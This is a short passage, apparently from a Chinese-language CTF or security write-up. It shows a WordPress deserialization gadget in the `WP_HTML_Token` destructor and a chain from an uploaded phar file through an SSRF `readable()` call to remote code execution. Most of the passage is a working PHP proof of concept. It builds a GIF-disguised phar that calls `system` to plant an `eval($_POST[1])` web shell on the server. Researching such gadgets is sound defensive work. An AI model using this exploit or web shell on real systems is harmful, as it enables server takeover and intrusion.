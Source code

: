 ```bash
    public function __destruct() {
        if ( is_callable( $this->on_destroy ) ) {
            call_user_func( $this->on_destroy, $this->bookmark_name );
        }
    }
}
```

> 又是大部分反序列化的罪魁祸首`call_user_func`，`WP_HTML_Token`类的销毁方法存在`call_user_func()`，而 `$this->on_destroy`和`$this->bookmark_name`都是可自定义控制的 (跟留了一个后门似的)

组合起来，首先可以通过插件上传一个 phar 文件，再通过`SSRF`中`readable()` 触发`phar`导致 RCE。

```bash
<?php
namespace
{
    class WP_HTML_Token
    {
        public $bookmark_name;
        public $on_destroy;

        public function __construct($bookmark_name, $on_destroy)
        {
            $this->bookmark_name = $bookmark_name;
            $this->on_destroy = $on_destroy;
        }
    }

    $a = new WP_HTML_Token('echo \'<?php eval($_POST[1]);?>\' > /var/www/html/aaa.php', 'system');

    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89A<?php XXX __HALT_COMPILER(); ?>");
    $phar->setMetadata($a);
    $phar->addFromString("aaa.txt", "test");
    $phar->stopBuffering();
}
?>
```
